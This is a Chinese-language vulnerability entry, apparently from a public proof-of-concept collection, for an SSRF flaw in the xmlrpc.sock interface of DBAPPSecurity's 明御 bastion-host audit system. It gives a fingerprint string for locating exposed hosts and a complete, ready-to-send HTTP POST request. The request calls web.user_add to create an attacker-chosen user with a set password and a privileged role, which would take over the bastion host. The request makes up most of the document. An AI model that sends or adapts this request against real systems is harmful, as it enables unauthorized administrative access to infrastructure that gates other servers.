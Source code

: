 # 安恒 明御运维审计与风险控制系统 xmlrpc.sock 任意用户添加漏洞

## 漏洞描述

安恒 明御运维审计与风险控制系统 xmlrpc.sock 接口存在SSRF漏洞，通过漏洞可以添加任意用户控制堡垒机

## 漏洞影响

安恒 明御运维审计与风险控制系统

## 网络测绘

"明御运维审计与风险控制系统"

## 漏洞复现

登陆页面

![image-20230810164012080](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230810164012958-658942502.png)

验证POC

```c
POST /service/?unix:/../../../../var/run/rpc/xmlrpc.sock|http://test/wsrpc HTTP/1.1
Host: 
Cookie: LANG=zh; DBAPPUSM=ee4bbf6c85e541bb980ad4e0fbee2f57bb15bafe20a7028af9a0b8901cf80fd3
Content-Length: 1117
Cache-Control: max-age=0
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.127 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

<?xml version="1.0"?>  
<methodCall>
<methodName>web.user_add</methodName>
<params>
<param>
<value>
<array>
<data>
<value>
<string>admin</string>
</value>
<value>
<string>5</string>
</value>
<value>
<string>10.0.0.1</string>
</value>
</data>
</array>
</value>
</param>
<param>
<value>
<struct>
<member>
<name>uname</name>
<value>
<string>test</string>
</value>
</member>
<member>
<name>name</name>
<value>
<string>test</string>
</value>
</member>
<member>
<name>pwd</name>
<value>
<string>1qaz@3edC12345</string>
</value>
</member>
<member>
<name>authmode</name>
<value>
<string>1</string>
</value>
</member>
<member>
<name>deptid</name>
<value>
<string></string>
</value>
</member>
<member>
<name>email</name>
<value>
<string></string>
</value>
</member>
<member>
<name>mobile</name>
<value>
<string></string>
</value>
</member>
<member>
<name>comment</name>
<value>
<string></string>
</value>
</member>
<member>
<name>roleid</name>
<value>
<string>102</string>
</value>
</member>
</struct></value>
</param>
</params>
</methodCall>
```

![image-20230810164033366](https://img2023.cnblogs.com/blog/2411575/202308/2411575-20230810164034292-208902627.png)